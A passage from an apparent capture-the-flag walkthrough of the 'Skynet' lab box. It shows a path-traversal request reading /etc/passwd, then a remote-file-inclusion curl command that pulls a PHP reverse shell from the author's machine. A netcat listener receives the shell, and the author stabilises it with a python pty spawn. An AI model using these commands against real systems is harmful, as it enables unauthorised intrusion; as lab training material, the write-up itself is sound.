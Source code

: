 I try the exploit to see if it works and it does

```
http://10.10.125.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```


![](/assets/img/20210228082507.png)

I now try to upload a PHP reverse shell from a webserver on my machine. 

```
(dspo6㉿kali)\[~/pentest/boxes/thm/Skynet\]$ curl http://10.10.125.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.2.2.175/php-reverse-shell.php
```

It works - we are in!

## Getting the User Flag

```
(dspo6㉿kali)[~]$ nc -lvnp 9003
listening on [any] 9003 ...
connect to [10.2.2.175] from (UNKNOWN) [10.10.125.81] 46742
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 19:38:51 up 39 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

I stabilize the shell

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                      
www-data@skynet:/usr$ export TERM=xterm                                                                                               
export TERM=xterm                                                                                                                     
www-data@skynet:/usr$ stty raw -echo; fg                                                                                              
stty raw -echo; fg                                                                                                                    
bash: fg: current: no such job                                                                                                        
www-data@skynet:/usr$    
```

And get the flag
